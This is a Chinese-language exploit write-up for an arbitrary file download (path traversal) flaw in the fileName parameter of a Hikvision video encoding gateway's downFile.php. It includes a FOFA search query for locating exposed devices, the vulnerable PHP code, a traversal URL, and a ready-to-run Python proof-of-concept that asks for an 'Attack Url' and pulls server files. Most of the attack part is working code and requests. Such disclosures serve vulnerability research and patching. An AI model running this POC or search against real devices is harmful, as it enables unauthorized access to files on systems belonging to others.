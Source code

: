 # HIKVISION 视频编码设备接入网关 任意文件下载

## 漏洞描述

海康威视视频接入网关系统在页面/serverLog/downFile.php的参数fileName存在任意文件下载漏洞

## 漏洞影响

> [!NOTE]
>
> HIKVISION 视频编码设备接入网关

## FOFA

> [!NOTE]
>
> title="视频编码设备接入网关"

## 漏洞复现

![](http://wikioss.peiqi.tech/vuln/hiv-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

漏洞文件为 **downFile.php**, 其中 **参数 fileName** 没有过滤危险字符，导致可文件遍历下载

```php
<?php
$file_name=$_GET['fileName'];
$file_dir = "../../../log/";
if   (!file_exists($file_dir.$file_name))   {   //检查文件是否存在  
  echo'<script> alert("文件不存在!");window.history.back(-1);</script>'; 
  exit();

}else{	
	$file = fopen($file_dir . $file_name,"r"); // 打开文件
	// 输入文件标签
	Header("Content-type: application/octet-stream");
	Header("Accept-Ranges: bytes");
	Header("Accept-Length: ".filesize($file_dir . $file_name));
	Header("Content-Disposition: attachment; filename=" . $file_name);
	// 输出文件内容
	echo fread($file,filesize($file_dir.$file_name));
	fclose($file);
	exit();
}
?> 
```

访问 http://xxx.xxx.xxx.xxx/serverLog/downFile.php?fileName=../web/html/serverLog/downFile.php 下载文件

![](http://wikioss.peiqi.tech/vuln/hiv-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: HIKVISION 视频编码设备接入网关                               \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/serverLog/downFile.php?fileName=../web/html/serverLog/downFile.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/serverLog/downFile.php?fileName=../web/html/serverLog/downFile.php \033[0m".format(target_url))
        if "$file_name" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 downFile.php \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/hiv-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> HIKVISION_Video_coding_equipment_Download_any_file

![](http://wikioss.peiqi.tech/vuln/hiv-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)